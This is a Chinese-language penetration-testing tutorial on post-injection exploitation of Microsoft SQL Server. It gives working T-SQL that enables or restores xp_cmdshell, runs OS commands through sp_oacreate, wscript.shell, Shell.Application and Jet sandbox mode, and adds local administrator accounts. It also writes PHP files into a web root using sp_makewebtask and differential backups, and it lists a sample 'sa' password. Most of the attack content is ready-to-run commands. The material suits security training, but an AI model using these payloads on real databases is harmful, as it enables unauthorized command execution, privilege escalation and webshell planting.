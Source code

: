 # MSSQL利用（注入后）

#### 连接MSSQL

> 链接软件 链接：[https://pan.baidu.com/s/1ktIaeBcsD2qB\_KFzINRSxw](https://pan.baidu.com/s/1ktIaeBcsD2qB_KFzINRSxw) 提取码：yqry

**连接MSSQL 2000**

**新建连接：（数据库-&gt;新建链接-&gt;ms SQL server）**

![](../.gitbook/assets/image%20%2815%29.png)

**填写目的IP、目的端口、用户名、密码：**

**sa   360College**

**一直下一步，完成后，数据库导航窗口会出现一个连接，双击连接：**

![](../.gitbook/assets/image%20%2872%29.png)

若是第一次连接，双击会提示下载驱动文件，若不成功，需多次反复尝试

**新建SQL编辑器即可执行SQL语句：**

![](../.gitbook/assets/image%20%28104%29.png)

查询SQL Server版本SQL语句如下：

```text
select @@version;
```

执行结果：

![](../.gitbook/assets/image%20%2869%29.png)

**连接MSSQL 2008**

**新建连接：**

**填写目的IP、目的端口、用户名、密码：**

**新建查询：**

![&#x53EF;&#x80FD;&#x4F1A;&#x4E0B;&#x8F7D;&#x9A71;&#x52A8;](../.gitbook/assets/image%20%2888%29.png)

**执行SQL语句，查询所有的数据库名称：**

SQL语句：

```text
SELECT Name FROM Master..SysDatabases ORDER BY Name;
```

执行结果：

![](../.gitbook/assets/image%20%28152%29.png)

#### MSSQL利用方式

**xp\_cmdshell**

**1.直接利用：**

SQL语句：

```text
exec master..xp_cmdshell 'whoami';
```

SQL Server 2000结果：

![](../.gitbook/assets/image%20%28157%29.png)

SQL Server 2008结果：

![](../.gitbook/assets/image%20%28109%29.png)

xp\_cmdshell存储过程在 SQL Server 2005以后默认关闭，需要手动开启

开启xp\_cmdshell命令如下：

```text
exec sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure'xp_cmdshell', 1;RECONFIGURE;
```

有的时候不支持多句执行，那就采用分步执行，开启xp\_cmdshell过程如下：

```text
exec sp_configure 'show advanced options', 1;       //开启高级选项
RECONFIGURE;                                        //配置生效
exec sp_configure 'xp_cmdshell', 1;                  //开启xp_cmdshell 
RECONFIGURE;                                        //配置生效
```

可以通过exec sp\_configure查看xp\_cmdshell状态：

```text
exec sp_configure
```

![](../.gitbook/assets/image%20%28108%29.png)

再次执行系统命令：

```text
exec master..xp_cmdshell 'whoami';
```

![](../.gitbook/assets/image%20%2895%29.png)

```text
exec master..xp_cmdshell 'ipconfig';
```

![](../.gitbook/assets/image%20%2841%29.png)

关闭xp\_cmdshell过程如下：

```text
exec sp_configure 'show advanced options', 1;       //开启高级选项
RECONFIGURE;                                        //配置生效
exec sp_configure'xp_cmdshell', 0;                  //关闭xp_cmdshell 
RECONFIGURE;                                        //配置生效
```

**2.恢复xp\_cmdshell：**

判断是否xp\_cmdshell存储过程，返回1代表存在：

```text
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell'       
```

在SQL Server 2005及之前的版本，管理员可能采用下面命令可以将xp\_cmdshell删除：

```text
exec master..sp_dropextendedproc xp_cmdshell;
```

此时若使用xp\_cmdshell，会提示“未能找到存储过程”,如下：

![](../.gitbook/assets/image%20%2865%29.png)

需使用下面命令可以恢复：

```text
exec master.dbo.sp_addextendedproc xp_cmdshell,@dllname ='xplog70.dll'declare @o int;
```

恢复xp\_cmdshell需要xplog70.dll，但有的管理员会将xplog70.dll一并删除：

![](../.gitbook/assets/image%20%2885%29.png)

如果有上传权限，可以上传xplog70.dll，并执行：

```text
exec master.dbo.sp_addextendedproc xp_cmdshell,@dllname ='C:\xplog70.dll'declare @o int;
```

**sp\_oacreate**

SQL Server 2008不可用，SQL Server 2000可添加管理员用户：

DECLARE @js int EXEC sp\_oacreate 'ScriptControl',@js OUT EXEC sp\_OASetProperty @js, 'Language', 'JavaScript' EXEC sp\_OAMethod @js, 'Eval', NULL, 'var o=new ActiveXObject\("Shell.Users"\);z=o.create\("test1"\);z.changePassword\("test1",""\);z.setting\("AccountType"\)=3;'

**sp\_makewebtask**

SQL Server 2008不可用，SQL Server 2000可新建文件：

exec sp\_makewebtask 'C:\test1.php',' select ''&lt;?php phpinfo\(\);?&gt;'' ';;--

**wscript.shell**

SQL Server 2008、SQL Server 2000均可用：

declare @shell int exec sp\_oacreate 'wscript.shell',@shell output exec sp\_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net user test2 test2 /add'

declare @shell int exec sp\_oacreate 'wscript.shell',@shell output exec sp\_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net localgroup administrators test2 /add'

执行结果：

**Shell.Application**

SQL Server 2008不可用，SQL Server 2000可用：

declare @o int exec sp\_oacreate 'Shell.Application', @o out exec sp\_oamethod @o, 'ShellExecute',null, 'cmd.exe','cmd /c net user test3 test3 /add','c:\windows\system32','','1';

**沙盒模式**

只有Windows xp 与 Windows 2003可用：

开启沙盒模式：

exec master..xp\_regwrite 'HKEY\_LOCAL\_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG\_DWORD',0;--

执行系统命令：

select \* from openrowset\('microsoft.jet.oledb.4.0',';database=c:\windows\system32\ias\ias.mdb','select shell\("cmd.exe /c net user test4 test4 /add"\)'\)

#### MSSQL差异备份

MSSQL 2008

查询库名：

```text
SELECT DB_NAME()
```

也可以创建数据库：

```text
create database test2;
```

先进行一次完整备份：

```text
backup database test2 to disk = 'c:\test2.bak';
```

使用数据库：

```text
use test2;
```

创建新表：

```text
create table [dbo].[test2] ([cmd] [image]);
```

向表中插入数据：

```text
insert into test2(cmd) values(0x3c3f70687020706870696e666f28293b3f3e);
```

3c3f70687020706870696e666f28293b3f3e为16进制的&lt;?php phpinfo\(\);?&gt; 进行差异备份：

```text
backup database test2 to disk='C:\phpStudy\PHPTutorial\WWW\test2.php' WITH DIFFERENTIAL,FORMAT;
```

访问目标地址：

